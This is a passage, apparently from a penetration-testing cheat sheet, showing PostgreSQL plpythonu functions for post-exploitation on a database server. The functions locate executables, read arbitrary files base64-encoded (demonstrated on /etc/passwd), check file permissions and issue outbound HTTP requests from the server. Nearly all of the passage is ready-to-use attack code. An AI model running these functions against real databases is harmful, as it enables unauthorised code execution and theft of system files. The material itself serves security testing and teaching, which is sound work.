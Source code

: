 ```sql
    return ", ".join(b)
$$
LANGUAGE 'plpythonu';

SELECT find_exe("psql"); #Find executable by susbstring
```

{{#endtab}}

{{#tab name="Read"}}

```sql
CREATE OR REPLACE FUNCTION read (path text)
RETURNS VARCHAR(65535) stable
AS $$
    import base64
    encoded_string= base64.b64encode(open(path).read())
    return encoded_string.decode('utf-8')
    return open(path).read()
$$
LANGUAGE 'plpythonu';

select read('/etc/passwd'); #Read a file in b64
```

{{#endtab}}

{{#tab name="Get perms"}}

```sql
CREATE OR REPLACE FUNCTION get_perms (path text)
RETURNS VARCHAR(65535) stable
AS $$
    import os
    status = os.stat(path)
    perms = oct(status.st_mode)[-3:]
    return str(perms)
$$
LANGUAGE 'plpythonu';

select get_perms("/etc/passwd"); # Get perms of file
```

{{#endtab}}

{{#tab name="Request"}}

```sql
CREATE OR REPLACE FUNCTION req2 (url text)
RETURNS VARCHAR(65535) stable
AS $$
    import urllib
    r = urllib.urlopen(url)
    return r.read()
$$
LANGUAGE 'plpythonu';

SELECT req2('https://google.com'); #Request using python2

CREATE OR REPLACE FUNCTION req3 (url text)
RETURNS VARCHAR(65535) stable
AS $$
    from urllib import request
    r = request.urlopen(url)
    return r.read()
$$
LANGUAGE 'plpythonu';

```